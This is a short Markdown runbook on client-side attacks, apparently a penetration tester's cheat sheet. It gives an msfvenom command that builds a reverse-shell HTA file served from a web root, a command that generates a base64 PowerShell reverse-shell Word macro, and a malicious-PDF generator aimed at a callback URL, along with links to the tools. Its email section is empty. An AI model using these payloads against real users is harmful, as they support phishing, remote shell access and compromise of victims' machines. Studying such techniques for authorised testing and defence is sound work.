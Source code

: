 # Client-Side Attacks

## Introduction

This runbook is to help with Client-Side Attacks.  Client-Side Attacks are those attacks that are sent to clients, whe the client has to intiate the connection.  An example of this would be a phishing email.  The listener and backend have to be set up prior, and then client has to click the link in the email.

## Table of Content

- [Client-Side Attacks](#client-side-attacks)
  - [Introduction](#introduction)
  - [Table of Content](#table-of-content)
  - [HTA Attack in Action](#hta-attack-in-action)
  - [Microsoft Word Macro Attack](#microsoft-word-macro-attack)
  - [Malicious PDF](#malicious-pdf)
  - [Email](#email)

## HTA Attack in Action

- Get web browser name, operating system, device type  
https://explore.whatismybrowser.com/useragents/parse/#parse-useragent

- Creating a malicious .hta with msfvenom

```sh
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o /var/www/html/evil.hta
```

## Microsoft Word Macro Attack

- Generate a malicious macro for reverse shell in powershell using base64 for .doc

```python
python evil_macro.py -l <ip> -p <port> -o macro.txt
```

- [Evil-Macro](https://github.com/rodolfomarianocy/Evil-Macro/)

## Malicious PDF

- Malicious PDF Generator

```python
python3 malicious-pdf.py burp-collaborator-url
```

- [malicious-pdf](https://github.com/jonaslejon/malicious-pdf)

- [evilpdf](https://github.com/superzerosec/evilpdf)

## Email

 To come

 <!--- Last Updated July 8, 2024 --->